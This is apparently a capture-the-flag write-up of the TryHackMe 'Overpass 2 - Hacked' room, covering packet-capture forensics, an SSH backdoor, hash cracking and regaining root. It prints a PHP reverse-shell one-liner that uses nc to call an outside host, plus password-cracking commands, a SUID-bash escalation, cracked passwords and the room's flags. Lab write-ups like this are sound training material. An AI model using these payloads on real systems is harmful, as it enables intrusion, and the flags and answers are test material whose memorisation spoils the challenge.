 ```yaml
---
title: Overpass 2 - Hacked
layout: post
author: Bit Criminals Team
date: 2021-06-28 21:55:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/overpass2hacked
---
```


This room was not like the usual ones. We had to first analyze a .pcapng file. 

# Forensics - Analyse the PCAP

**What was the URL of the page they used to upload a reverse shell?**

![](/images/Mars/overpass1.png)

On close observation, you will find that the page is ```/development/```

**What payload did the attacker use to gain access?**

![](/images/Mars/overpass2.png)

When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was 
```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

**What password did the attacker use to privesc?**

![](/images/Mars/overpass3.png)

On following the TCP streams available we found this goldmine of information. Clearly the password the attacker used was the password of James.
```whenevernoteartinstant```

**How did the attacker establish persistence?**

![](/images/Mars/overpass4.png)

On going further through the above TCP stream, we understood that the attacker planted an ssh backdoor to establish persistence. Clearly, he did so by cloning the following github repository.
```https://github.com/NinjaJc01/ssh-backdoor```

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

Futher down in the same TCP stream, the attacker viewed the "/etc/shadow" file. Here we found the password hashes of five users. (Refer the image above)
We copied the password hashes into another file and used John the Ripper to crack the hashes. We used the fasttrack wordlist as per the requirment. The command used was
>john --wordlist=/usr/share/wordlists/fasttrack.txt hash1

![](/images/Mars/overpass6.png)

Hence ```4``` hashes were cracked.

# Research - Analyse the code

The attacker created a backdoor using the code from ***https://github.com/NinjaJc01/ssh-backdoor***. So we cloned this repository to analyze the code.

**What's the default hash for the backdoor?**

In the main.go file, we found the default hash for the back door. Also note the port 2222 which the attacker used.

![](/images/Mars/overpass7.png)

```bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3```

**What's the hardcoded salt for the backdoor?**

Futher down in the same file we found the hardcoded salt for the backdoor.

![](/images/Mars/overpass8.png)

```1c362db832f3f864c8c2fe05f2002a05```

**What was the hash that the attacker used? - go back to the PCAP for this!**

![](/images/Mars/overpass5.png)

```6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed```

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

We created a file with the above hash and the hardcoded salt for the backdoor in the format hash$salt ahd used John the Ripper.
>john -form=dynamic='sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash2

The password was ```november16```


# Attack - Get back in!

**The attacker defaced the website. What message did they leave as a heading?**

On opening the website "http://<box-ip>, we foind this.

![](/images/Mars/overpass10.png)

```H4ck3d by CooctusClan```

**What's the user flag?**

We had to begin with nmap scan, but this time it was unusually long. But we know that the attacker used port 2222. So we logged in at port 2222 uing ssh
>ssh -p 2222 james@<10.10.114.96>

Finally result of the nmap scan came!
![](/images/Mars/overpass9.png)

We found the user falg in user.txt in the home directory of james.

![](/images/Mars/overpass11.png)

```thm{d119b4fa8c497ddb0525f7ad200e6567}```

**What's the root flag?**

Now comes the best part, privelage escelation.
We tried "sudo -l" as usual but this time the old password was incorrect. This meant the password was changed. The attacker is a smart guy!
Searching for a way to break in, we looked at all the files in the home directory. We found an unusual executable file owned by root.

![](/images/Mars/overpass12.png)

On execution using "./.suid_bash" it gave us a shell, but the user was still james. So this time we executed
>./.suid_bash -p
 We became the root!!!

![](/images/Mars/overpass13.png)

```thm{d53b2684f169360bb9606c333873144d}```










